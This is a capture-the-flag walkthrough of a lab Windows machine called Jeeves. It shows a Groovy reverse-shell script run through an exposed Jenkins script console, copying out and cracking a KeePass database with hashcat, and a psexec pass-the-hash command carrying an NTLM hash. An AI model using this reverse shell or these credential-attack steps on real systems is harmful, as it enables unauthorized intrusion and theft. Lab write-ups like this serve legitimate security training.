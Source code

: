 ## About

Jeeves is a relatively straightforward challenge but focuses on some interesting techniques, providing a great learning experience. The use of alternate data streams is uncommon, and some users may have difficulty locating the correct escalation path.

## Initial Enumeration

Run the following `nmap` scan to enumerate open ports and services:

`nmap -A -T4 -p- 10.129.228.112`
### Nmap Output:

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
```
```
Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-03-16T22:07:11
|_  start_date: 2025-03-16T21:57:47

```
### Web Port Enumeration

I decided to start directory enumeration on both web ports (TCP:80 and TCP:50000). Upon discovering a hit on `http://10.129.228.112:50000/askjeeves/`, I navigated to the page, which revealed a Jenkins Web interface.

![Jenkins Webpage](Images/Pasted%20image%2020250316131434.png)

Upon further exploration, I found the `Administrator` directory.

![Administrator Directory](Images/Pasted%20image%2020250316131727.png)

The page also appeared to allow for script execution.

![Script Console](Images/Pasted%20image%2020250316131833.png)

A quick Google search led me to a [Groovy Reverse Shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

## Exploitation

### Reverse Shell

Utilizing the Groovy Reverse Shell, I generated a reverse shell to the target machine.

```php
String host="10.10.14.13";
int port=9090;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After setting up a listener and executing the script, I was able to obtain a shell.

![Reverse Shell](Images/Pasted%20image%2020250316132122.png)

I then grabbed the user flag before moving on to the next steps.

![User Flag](Images/Pasted%20image%2020250316132336.png)

## Post Exploitation

### Enumeration

#### Exploit Suggester

The following vulnerabilities were suggested by the exploit suggester tool:

```
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[E] MS16-129: Cumulative Security Update for Microsoft Edge (3199057) - Critical
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[E] MS16-056: Security Update for Windows Journal (3156761) - Critical
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical

```

#### Privilege Enumeration

During enumeration, I found that the user account had "Impersonate Privilege."

![Privilege Enumeration](Images/Pasted%20image%2020250316132818.png)

#### Directory Enumeration

While exploring the user's documents folder, I discovered a KeePass database file (`CEH.kdbx`), which was locked with a passphrase.

![KeePass Database](Images/Pasted%20image%2020250316134343.png)

To exfiltrate this file, I created a workspace within Jenkins and copied the `CEH.kdbx` file to the workspace, making it accessible via the web server.

![Jenkins Workspace](Images/Pasted%20image%2020250316135636.png)

### Privilege Escalation

#### Cracking the KeePass Database

I used the [KeePass2john](https://github.com/ivanmrsulja/keepass2john) tool to extract the hash from the KeePass database file.

![Keepass2john](Images/Pasted%20image%2020250316140223.png)

I then attempted to crack the hash using `hashcat`:

`sudo hashcat -m 13400 keepass.txt /usr/share/wordlists/rockyou.txt`
![](Images/Pasted%20image%2020250316140600.png)
After successfully cracking the hash, I obtained the passphrase `moonshine1`.


Within the Keepass Database there were numerous username:password combinations

![](Images/Pasted%20image%2020250316140636.png)

Utilizing the passwords I will generate a password list to attempt authentication.

![](Images/Pasted%20image%2020250316140829.png)
![](Images/Pasted%20image%2020250316140948.png)

None of the passwords I was able to extract generated a successful authentication.

One of the files appears to be a hash rather than a password so maybe I will attempt passing that to the host.
![](Images/Pasted%20image%2020250316141115.png)
That gives us a successful authentication so now we can try and establish a shell using psexec.
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.228.112 cmd.exe`
![](Images/Pasted%20image%2020250316141234.png)
Grab the administrator flag.

![](Images/Pasted%20image%2020250316141820.png)

## Conclusion

This walkthrough demonstrated several key exploitation techniques, including directory enumeration, exploiting Jenkins, and cracking a KeePass database to escalate privileges and finally gain access to the Administrator account.
